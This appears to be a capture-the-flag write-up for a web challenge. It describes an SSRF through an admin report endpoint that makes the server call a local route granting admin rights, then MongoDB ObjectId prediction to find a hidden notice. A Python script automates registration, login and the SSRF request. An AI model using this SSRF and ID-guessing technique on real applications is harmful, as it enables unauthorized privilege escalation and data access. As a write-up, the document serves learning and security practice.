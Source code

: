 
Here we see that there are many subroutes starting with `/admin`. One of them is `/admin/report/` which makes the admin visit any `url` that we provide inside the url parameter.

There are more interesting functions.
* `/admin/grant/` - Makes the `username` we provide an admin user (sets `isAdmin` to `true` in the JWT). But it can only be run locally
* `/admin/notice` - Shows all the notices except the flag
* `/admin/notice/:id` - Shows the notice with the specified `id`. It also doesn't check if it is the flag or not.

Also there is the `/post/edit/:id` which allows us to edit a post but this also can be accessed only by admins.

## Exploit

First we need to find a way to get admin privileges. For this we can do an SSRF attack by sending a request to `/report?url=http://localhost:1337/admin/grant?username=hacker`. This makes the server access the `/admin/grant` locally makes our created user (`hacker`) an admin.

Now with this we can access all the pages that need admin access.

Next, we need to find a way to get the `id` of the flag notice. One of my teammates noticed that the `id` of the two given notices different only by `characters` so what we did bruteforced at just those two indices and that literally gave us the `id` for the flag and the second part of the flag. It was only after the CTF I found that it is an vulnerability in how MongoDb generates ids. ([Mongo Objectid Predict](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb#mongo-objectid-predict))

bruteforce.py
```py
import requests
import re

baseURL = "https://149f10ef5e1c3d471e0588fc.deadsec.quest"

def register(username, password, personalColor):
    url = baseURL + "/auth/register"
    sendJSON = {"username": username, "password": password, "personalColor": personalColor}
    r = requests.post(url, json=sendJSON)
    return r

def login(username, password):
    url = baseURL + "/auth/login"
    sendJSON = {"username": username, "password": password}
    r = requests.post(url, json=sendJSON)
    return r

user = "hacker"
passwd = "hacker"
personalColor = "#369369"
print(register(user, passwd, personalColor).json())

res = login(user, passwd).json()
print(res)
TOKEN=res["accessToken"]
print("accessToken:", TOKEN)

def makeAdmin(username, accessToken=TOKEN):
    url = baseURL + "/admin/report?url=http://localhost:1337/admin/grant?username=" + username
    sendCookie = {"accessToken": accessToken}
    r = requests.get(url, cookies=sendCookie)
    return r

print(makeAdmin(user).json())

```